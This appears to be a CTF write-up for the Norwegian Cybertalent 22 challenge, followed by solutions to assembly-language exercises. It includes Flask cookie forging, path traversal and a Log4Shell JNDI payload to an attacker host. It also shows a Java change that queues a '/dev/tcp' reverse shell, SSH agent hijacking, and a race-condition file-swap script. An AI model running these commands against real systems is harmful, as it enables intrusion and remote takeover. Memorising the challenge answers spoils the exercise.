

# Cybertalent 22

## 2. Oppdrag

### 2.01 pcap
We are given the task to examine the pcap file to an infilitrated server and to identify the attack. The flag are shown with the payload used to attack the server.


### 2.02_anvilnotes
We're told that the attacker has been using the anvilnotes website. When examining we create an account and we can create notes for ourselves which is randomized. But endpoint /note/1 still exists which is a todo list with a bunch of severe security flaws.


### 2.03_anvilnotes_admin
The todo list indicates that the flask token is weak. Therefore I decide to try to bruteforce the sercret key:


With that information we can now sign our own cookies which can be used to get the admin login without password:


### 2.04_anvilnotes_password
Now that we have the admin account we can now access the download pdf function, lets explore that. The first thing that came to mind was some sort of element injection to the pdf document to make it get files from its own system, but after a lot of tempering and testing it was clear that was not the case. Anyways after examining the request being made I noticed that there was an api endpoint which handled the pdf converting.


I tried to temper with the id and tried to send a non-existing id and the server revealed that it was doing a local api call.


I then tried to do path traversal i found this:

<details>
  <summary>Hide/show JSON</summary>
  
```json
{
   "definitions":{
      
   },
   "info":{
      "title":"Cool product name",
      "version":"0.0.0"
   },
   "paths":{
      "/api/decrypt":{
         "get":{
            "description":"",
            "parameters":[
               {
                  "in":"GET(urlargs) or POST(body)",
                  "name":"data",
                  "required":true,
                  "type":"hex string"
               }
            ],
            "produces":[
               "plaintext string"
            ],
            "responses":{
               
            },
            "summary":"Decrypt our data with secret internal key"
         },
         "post":{
            "description":"",
            "parameters":[
               {
                  "in":"GET(urlargs) or POST(body)",
                  "name":"data",
                  "required":true,
                  "type":"hex string"
               }
            ],
            "produces":[
               "plaintext string"
            ],
            "responses":{
               
            },
            "summary":"Decrypt our data with secret internal key"
         }
      },
      "/api/encrypt":{
         "post":{
            "description":"",
            "parameters":[
               {
                  "in":"body",
                  "name":"data",
                  "required":true,
                  "type":"string"
               }
            ],
            "produces":[
               "hex string"
            ],
            "responses":{
               
            },
            "summary":"Encrypts data with secret internal key"
         }
      },
      "/api/user/{user}":{
         "get":{
            "description":"",
            "parameters":[
               {
                  "in":"path",
                  "name":"<username>",
                  "required":true,
                  "type":"path"
               }
            ],
            "produces":[
               "application/json"
            ],
            "responses":{
               
            },
            "summary":"Get information from the database on a user. example: /api/user/bob"
         }
      },
      "/api/users":{
         "get":{
            "description":"",
            "produces":[
               "application/json"
            ],
            "responses":{
               
            },
            "summary":"List all users from database."
         }
      }
   },
   "swagger":"2.0"
}
```
  </details>
This information provides us the information we need to use the different API endpoints. We can now extract all the users with /api/users endpoint, get the password with the /api/<user> endpoint and decrypt the password with /api/decrypt?data=<password hash>, which gives us the flag.

### 2.05_anvilnotes_source

The user oper looks interesting so we create a cookie for that account
```
flask-unsign --sign --cookie "{'username': 'oper'}" --secret 'This is an UNSECURE Secret. CHANGE THIS for production environments.'
```

Here we find the backup source code which has been presumably used for hacking this server.
The flag is inside the notes and the files gzip file has been base64 encoded.
```bash
echo "<base64>" | base64 --decode > source
zcat source > source.tar
```
### 2.06_pwr-ws-caf5db
To gain access to the machine we're supose to recreate the attack that was performed on pwr-ws-caf5db, which was a log4js vulnerability.
I ran <a href="https://github.com/black9/Log4shell_JNDIExploit">this</a> exploit.

```bash
java -jar JNDIExploit-1.2.jar -i AttackerIP
curl VictimIP/Domain -H 'User-Agent: ${jndi:ldap://AttackerIP:LDAP_PORT/Basic/Command/Base64/[base64_encoded_cmd]}
```
With this I was able to gain a reverse shell and gain access to the server, we can then take their ssh key to gain access whenever we want.

### 2.07 shady-aggregator
When running ```ps -aux```, we can see a interesting connection from user archive from shady-aggregator.

We can check for the ssh-agent in the /tmp folder and try to see if we can find the agent socket.

We can then try to impersonate this user and connect back to their server without having to do any verification at all.

The flag is found in the user's home.
### 2.08_client_list
Also seen in the proccesses is the ```java -jar .client```, which mean that this client has been compromised and is a part of the botnet operated by shady-aggregator.
When investigating the client file we can see that we can run ```java -jar --get-config``` and we will get some useful information about how we can contact the operator of the botnet. We also have the server file so we can simply check their list.


### 2.09 cloud-hq
This part is was a exploit hidden in plain site. This part can be divided in two parts:
1. Find a way for the client to execute code.
2. Find a way for to deliver the payload to the server. 
#### Crafting the payload

```java
else if(args.length >= 1 && args[0].equals("--test-set")) {
    try {
        FileInputStream fd = new FileInputStream("test");
        System.out.printf("Loading command from %s\n", "test");
        ObjectInputStream in = new ObjectInputStream(fd);
        final Command c = (Command) in.readObject();
        in.close();
        fd.close();
        c.value = "bash -i >& /dev/tcp/10.1.51.229/1234 0>&1";
        client.cfg.pendingCommands.add(c);
    } catch (IOException | ClassNotFoundException e) {
        System.out.printf("Error: %s\n", e.getMessage());
    }
}
```
I added this Java code to the Client file to read executeable commands from test and write new commands to .config. The command payloads are the ones we retrieved from the c2 server, which includes verified/signed payloads. We can now run ```java -jar .client .config``` and it will run the commands without checking for any validation.
### Delvering the payload

I ran the python script locally and saw that the file we upload are being temporary saved to /tmp/ as a random name while the script verifies the obj variable which holds a "copy" of our file. Which means that we can upload a files that passes the verification part and replace the tmp file that gets created in /tmp/.
I then created a bash script to automatic look for these tmp files in the shared folder with c2 and archive at the shady-aggregator server.
```bash
#!/bin/bash
while true; do
  # Find the file that starts with "tmp"
  tmp_file=$(find . -name "tmp*" -print)

  # Check if the file was found
  if [ -n "$tmp_file" ]; then
    # Replace the file with ~/.config
    mv "$tmp_file" /tmp/
    cp .config "$tmp_file"
    # Print a message to confirm the replacement
    echo "Replaced $tmp_file with .config"
    break
  else
    # Print an error message if the file was not found
    echo "Error: could not find a file starting with 'tmp'"
  fi
done
```
The .config file would then contain the commands that will execute on client side without verification and the file would be successfully be uploaded as we would upload a file that would pass the verification test and our bash script would automaticly switch the files. The reason why we had to move the tmp file was that we had no write access to the file, but we had permission to move the file.

### 2.10_infrastruktur
When we finally gain access to oper, the operator of the botnet. We can access the files being used for crafting payloads, which contains the privatekey for the signing, with that we find the flag.



### 2.11_aurum_shell
Access to this machine is done by doing the same exploit as done to gain access to oper. (flag 2.10)

### 2.12_missile_targets
When investigating this machine we can find in .bash_history that the previous user online used a program called konekt. We find ourselves a missile command center and we find out that this foreign country has placed submarines around international ocean with missile aimed at europe!


### 2.13_findflag
When using konekt we can check the firmware and files, but we find ourselves having little access. Luckily we can download the server firmware and investigate ourselves.


First we find out the files we can download.


Then the client will hexdump the code, since the file is quite big this will take a while, since we need to copy the output to a file and then sanitize it from useless data.
```bash
konekt | tee <output>
```
After waiting about 15mins the file was done and ready to be sanitized, since the output we have is a hexdump and we only want the hex values to later cast it to a tar.xz file.

```python
# Open the input file for reading
with open('test.txt', 'r') as f:
    # Read the contents of the file into a string
    contents = f.read()

# Initialize an empty list to store the hexadecimal values
hex_values = []

# Split the contents of the file by the newline character '\n'
for line in contents.split('\n'):
    # Split each line by the pipe character '|'
    parts = line.split('|')
    # Check if there are at least 3 parts in the split line
    if len(parts) >= 3:
        # The hexadecimal values are in the second part, so extract them and
        # add them to the list
        hex_values.append(parts[1])

# Join the hexadecimal values together with a newline character '\n'
output_string = '\n'.join(hex_values)

# Open the output file for writing
with open('output.txt', 'w') as f:
    # Write the output string to the output file
    f.write(output_string)
```

I used this python script to seperate the hex values from the output file and then ran this bash script to cast it to a tar.xz file.
  
```bash
xxd -r -p output.txt > test.tar.xz
```
  
We know have the server file and can analyze this in ghidra. After a bit of analyzing I found this interesting part:


What this piece of code is essantially saying if that we type in the "secret" code we are given more rights, we can now simulate the missile attacks and change our names, which opens up for the next exploit.
  


The user_rename checks if our string is more than 0 and readjusts the session. What I thenn tried was to rename myself to an empty string, which gave me admin privleges. I can now use the program to the full extent.
## 3.2
### 3.2.1.01_rtfm

### 3.2.1.02_sum-of-all-fears

### 3.2.1.03_it-compares
Skriv et program som leser inn to tallverdier A og B og skriver ut enten tallverdien 1 hvis A er større enn B, eller 0 i alle andre tilfeller.

```
:a .DATA 0x0
:b .DATA 0x0
:en .DATA 0x1
:null .DATA 0x0

FINNE en
FINNE null
INN a
INN b
MINUSE b a
FORBI /MENTE 0
HOPPE afunc
UT null
STOPPE 0

:afunc
UT en
STOPPE 0
```

### 3.2.1.04_encryption
Skriv et program som leser inn en nullterminert ASCII-streng (1 ord per tegn), tar ENTEN (XOR) av hvert tegn med 0x1b39 og skriver ut resultatet.
```
:xor .DATA 0x1b39
:tekst

FINNE tekst
:løkke
  INN tekst
  FORBI /NULL 0
  HOPPE ferdig
  ENTEN tekst xor
  UT tekst
  HOPPE løkke
:ferdig
STOPPE 0
```
### 3.2.1.05_decryption
Skriv et program som leser inn:
1. Mengden data som skal dekrypteres (1 ord), deretter
2. Selve de krypterte dataene.
Programmet skal ta ENTEN (XOR) av dataene med 4919 og skrive ut resultatet.
```
:xor .DATA 4919
:en .DATA 1
:mengde .DATA 0
:tekst
  
FINNE xor
INN mengde
FINNE en
:løkke
  FORBI /NULL 0
  HOPPE ferdig
  INN tekst
  ENTEN tekst xor
  UT tekst
  MINUSE mengde en
  HOPPE løkke
:ferdig
STOPPE 0
```
